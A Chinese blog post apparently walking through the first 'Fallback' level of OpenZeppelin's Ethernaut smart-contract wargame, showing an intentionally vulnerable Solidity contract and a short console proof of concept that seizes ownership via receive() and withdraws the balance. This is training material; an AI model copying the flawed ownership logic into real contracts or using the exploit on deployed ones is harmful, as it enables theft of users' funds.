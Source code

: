 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-1'
date: 2022-12-5 13:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'
---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第一关Fallback思路与POC

##### 目标:提取合约中的所有余额

##### 首先看代码：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

//部署合约时限定部署者为owner,并贡献了1000ETH
  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }
//每次只能贡献0.001ETH,贡献超过1000ETH后自动成为合约拥有者
  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

#### 通过审计合约代码可以发现,只需要想办法将owner存储的值设置为我们的钱包地址即可

##### 问题在哪里:很明显 receive() external. 设置了receive函数来接收转账,并且通过校验即改变owner存储的地址

##### poc思路 向Fallback合约发送转账,并通过 require(msg.value > 0 && contributions[msg.sender] > 0) 此校验

poc代码:

```js
await contract.contribute({value : 900000000000000})
await contract.sendTransaction({value : 1})
//此时查看合约owner地址已经是我们的钱包地址
await contract.owner()
'0x0e21d35681E679C33dD49731935FB81F1aee8C05'
//成功提现合约中的所有token
await contract.withdraw()
```

![](./assets/1670480318021.png)
